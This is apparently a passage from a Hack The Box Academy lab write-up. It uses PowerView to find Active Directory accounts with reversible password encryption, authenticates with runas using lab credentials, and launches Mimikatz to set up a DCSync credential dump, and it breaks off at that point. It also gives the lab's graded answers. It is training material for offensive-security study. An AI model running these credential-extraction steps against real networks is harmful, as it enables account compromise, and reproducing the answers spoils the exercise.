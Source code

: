#### **Solution Steps:**

**1. RDP Connection:**
```bash
xfreerdp /v:10.129.149.107 /u:htb-student /p:Academy_student_AD!
# Click "OK" on Computer Access Policy prompt
# Close Server Manager
# Run PowerShell as Administrator
```

**2. PowerView Enumeration:**
```powershell
# Navigate to tools and import PowerView
cd C:\Tools\
Import-Module .\PowerView.ps1

# Check for accounts with reversible encryption
Get-DomainUser -Identity * | ? {$_.useraccountcontrol -like '*ENCRYPTED_TEXT_PWD_ALLOWED*'} | select samaccountname,useraccountcontrol
```

**Real Lab Output:**
```powershell
PS C:\Tools> Get-DomainUser -Identity * | ? {$_.useraccountcontrol -like '*ENCRYPTED_TEXT_PWD_ALLOWED*'} | select samaccountname,useraccountcontrol

samaccountname                         useraccountcontrol
--------------                         ------------------
proxyagent     ENCRYPTED_TEXT_PWD_ALLOWED, NORMAL_ACCOUNT
syncron        ENCRYPTED_TEXT_PWD_ALLOWED, NORMAL_ACCOUNT
```

**🎯 Answer: `syncron`**

### **💎 Question 2: "What is this user's cleartext password?"**

#### **Solution Steps:**

**1. Authentication as adunn:**
```cmd
# Open Command Prompt and use runas
runas /netonly /user:INLANEFREIGHT\adunn powershell
# When prompted, enter: SyncMaster757
```

**Real Lab Output:**
```cmd
C:\Users\htb-student>runas /netonly /user:INLANEFREIGHT\adunn powershell

Enter the password for INLANEFREIGHT\adunn:SyncMaster757
Attempting to start powershell as user "INLANEFREIGHT\adunn" ...
```

**2. Mimikatz DCSync:**
```powershell
# Navigate to Mimikatz
cd C:\Tools\mimikatz\x64\

# Launch Mimikatz
.\mimikatz.exe
```
